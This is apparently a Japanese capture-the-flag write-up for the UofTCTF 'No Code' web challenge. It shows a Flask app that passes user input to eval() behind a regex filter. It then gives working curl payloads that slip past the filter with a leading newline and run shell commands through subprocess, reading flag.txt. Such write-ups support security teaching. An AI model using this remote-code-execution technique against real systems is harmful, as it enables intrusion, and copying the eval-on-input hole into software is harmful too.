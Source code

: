 # No Code:Web:362pts
I made a web app that lets you run any code you want. Just kidding!  

[https://uoftctf-no-code.chals.io/](https://uoftctf-no-code.chals.io/)  
[app.py](app.py)  

# Solution
URLとソースが渡される。  
初めにURLにアクセスするが何もない。  
```bash
$ curl https://uoftctf-no-code.chals.io/
<!doctype html>
<html lang=en>
<title>404 Not Found</title>
<h1>Not Found</h1>
<p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
```
ソースは以下のようであった。  
```python
from flask import Flask, request, jsonify
import re

app = Flask(__name__)

@app.route('/execute', methods=['POST'])
def execute_code():
    code = request.form.get('code', '')
    if re.match(".*[\x20-\x7E]+.*", code):
        return jsonify({"output": "jk lmao no code"}), 403
    result = ""
    try:
        result = eval(code)
    except Exception as e:
        result = str(e)

    return jsonify({"output": result}), 200

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=1337, debug=False)
```
`/execute`にPOSTしたものを`re.match`で検証しているようだ。  
ここで`.*[\x20-\x7E]+.*`は改行にマッチしないことに気づく。  
`re.match`は先頭がマッチするかどうかなので、先頭に改行を挟めば以降は任意のコードを記述できる。  
以下のように行う。  
```bash
$ curl -X POST 'https://uoftctf-no-code.chals.io/execute' -d 'code=
__import__("subprocess").getoutput("ls")
'
{"output":"app.py\nflag.txt\nrequirements.txt"}
$ curl -X POST 'https://uoftctf-no-code.chals.io/execute' -d 'code=
__import__("subprocess").getoutput("cat flag.txt")
'
{"output":"uoftctf{r3g3x_3p1c_f41L_XDDD}"}
```
flagが読み取れた。  

## uoftctf{r3g3x_3p1c_f41L_XDDD}